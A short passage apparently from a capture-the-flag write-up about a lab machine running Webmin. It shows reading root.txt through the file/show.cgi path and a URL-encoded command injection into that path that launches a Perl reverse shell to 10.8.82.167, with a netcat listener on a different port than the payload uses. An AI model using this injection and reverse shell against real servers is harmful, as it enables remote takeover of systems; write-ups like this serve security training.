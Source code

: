 For example, to access root.txt we do:

    http://localhost:10000/file/show.cgi/root/root.txt

Output:

    a4b945830144bdd71908d12d902adeee

PrivEsc:

On Firefox:

    http://localhost:10000/file/show.cgi/bin/4uIPiqNld|perl%20-e%20'use%20Socket;$i=%2210.8.82.167%22;$p=1234;socket(S,PF_INET,SOCK_STREAM,getprotobyname(%22tcp%22));if(connect(S,sockaddr_in($p,inet_aton($i))))%7Bopen(STDIN,%22%3E&S%22);open(STDOUT,%22%3E&S%22);open(STDERR,%22%3E&S%22);exec(%22/bin/sh%20-i%22);%7D;'|

On Terminal:

    rlwrap nc -lvnp 4444

The reason why this works, from what I can see, is that Webmin is running in perl. The others didn't work for me but this one did, weird why, but complete!